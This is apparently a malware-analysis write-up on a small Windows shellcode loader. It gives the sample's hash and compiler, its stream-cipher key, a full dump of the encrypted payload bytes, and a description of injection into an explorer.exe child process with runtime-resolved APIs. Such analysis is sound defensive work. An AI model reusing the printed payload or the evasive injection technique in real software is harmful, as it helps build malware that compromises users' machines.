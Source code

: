 # Analysis of a shellcode

```
func_pointer.bin64: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 11 sections
SHA256: edd41b4a819f917f81203424730aaf0c24cc95e40acfc0f1bd90b11dadf58015
```

## Basic static analysis

The sample is only 24 kB and targeting x64 Windows systems. It is probably not packed or heavily obfuscated, at least not in a way that significantly expands its file size. A small size often suggests either a very simple piece of malware, a loader/dropper that downloads a larger payload, or a highly optimized and potentially assembly-heavy piece of code. This small footprint also implies it might not contain a large amount of embedded resources or complex libraries. Therefore, we should be able to begin direct analysis of its code without extensive unpacking efforts.

Opening the file in Die [](assets/die_compiler.png), we see that the the program has been written in C/C++, using MinGW compiler. We can even retrieve the compilation timestamp (in pestudio or CFF Explorer): `2023-04-06 15:21:17`.

## Detailed static analysis

After a series of initialization (code automatically added by MinGW), an encrypted payload is decrypted. The algorithm used is a stream cipher, derivating 3 keys from an original one, and XORing the source with a calculus made from these 3 keys, `BYTE` by `BYTE`. The key used here is `"UUUUUUUU"`.

The encrypted data is as follows:

```
encrypted_payload db  8Dh,   9, 8Dh, 59h,0A0h, 1Fh, 83h, 0Ah, 9Eh, 86h, 28h,0B9h,0CAh, 73h,0E2h,0D7h, 1Dh
                                        ; DATA XREF: main+84↑o
                db  38h, 3Dh, 30h, 94h,0D5h,0FEh, 7Dh,0D0h, 32h, 64h,0D3h,0F5h, 0Fh, 29h, 3Eh, 95h,0ABh
                db  9Ch, 38h, 4Ch, 3Eh,0CBh,0E0h,0D3h,0CAh, 6Dh, 2Bh,0E2h, 59h, 18h,0FFh, 9Fh, 67h, 63h
                db  97h,0F9h, 9Bh, 54h,   6, 6Fh,0FCh,0E9h, 17h, 78h, 87h, 61h,0EAh,0CCh, 24h,   9, 49h
                db  80h,0E8h,0FFh,   0,0D1h,0D3h,0BAh, 5Ch, 2Fh, 72h,   1, 3Bh,0A2h, 0Ah, 74h,   9, 0Bh
                db 0C2h, 6Ch, 1Bh,   2, 0Ch, 14h,0A4h, 20h, 69h, 80h,0E9h, 3Ch, 27h,   9, 0Bh,0C2h,   2
                db 0AEh,   9,0CCh, 0Ch, 9Ah, 64h,0AAh, 45h,   9,   1, 49h, 91h,0E9h, 4Eh, 1Ah, 6Fh, 4Bh
                db 0BAh, 55h, 2Fh, 14h,0A9h, 4Dh, 28h, 9Eh,   5, 70h,0C3h, 5Ah, 63h, 50h, 2Eh,0C5h,0D5h
                db  6Dh, 2Dh, 60h,   4,0E8h, 70h,0A8h, 34h,0FBh, 2Ch, 1Eh, 93h,0CEh,0A0h, 1Ch,0E1h, 19h
                db 0F0h, 70h,0FFh, 10h, 76h,   5, 81h, 52h, 76h,0D9h, 83h, 54h, 72h, 9Ah, 61h,0AAh,   9
                db  61h, 76h, 0Ch,0CAh, 4Ah, 0Eh, 1Bh, 91h, 52h,0BAh, 55h, 2Fh, 24h,0A9h, 4Dh, 28h, 98h
                db    9, 19h, 4Bh, 4Ah, 0Ch,0C9h,0D8h,0C5h, 4Ch,0E5h, 79h, 60h, 5Fh, 61h,0CBh,0A4h, 61h
                db  4Bh, 40h,0ADh, 70h,0DAh,0C5h, 4Dh,0FEh, 1Eh, 69h, 8Eh, 3Bh,0A1h,   1,0BEh,0F5h,0EDh
                db  0Fh,0D9h, 45h, 45h, 14h,0A4h, 20h, 21h, 3Bh, 61h,0C5h,0DDh, 5Bh, 0Bh, 12h, 52h,0AEh
                db 0CEh,   9, 91h, 91h, 21h, 21h,   5, 61h, 79h, 81h,   0,0B0h, 57h,0D1h,0C6h, 85h, 7Bh
                db 0C1h, 1Fh,0C0h, 3Ch, 2Fh, 23h,   9,0F2h,0E7h, 9Fh,0AFh,0CFh, 6Fh, 57h,0CCh, 97h, 60h
                db    8, 1Dh,   3, 55h, 42h,0C8h,0BAh,0EAh, 67h, 57h, 2Bh,0C5h, 97h, 66h,0CBh, 4Ah, 21h
                db  5Ch, 68h,0C1h, 92h,0BEh,0DFh, 5Ah,   6,0D2h,0A2h,0D4h, 43h,0EAh,   0, 74h, 25h, 6Bh
                db  2Dh, 68h,   9, 6Bh, 62h, 22h,0E9h,0A2h, 84h, 14h,0A4h, 20h, 21h,   5, 29h, 48h,   0
                db  15h, 48h, 28h, 72h,0DDh,0E3h,0E8h, 46h,0C1h, 56h, 21h, 95h,0B9h
```

All sensitive function are loaded at runtime to avoid being detected in the imports. The PID of the running process launched by `explorer.exe` is retrieved, to then allocate memory remotely (`VirtualAllocEx`), write the decoded payload (`WriteProcessMemory`) and execute the code as a remote thread (`CreateRemoteThread`). 


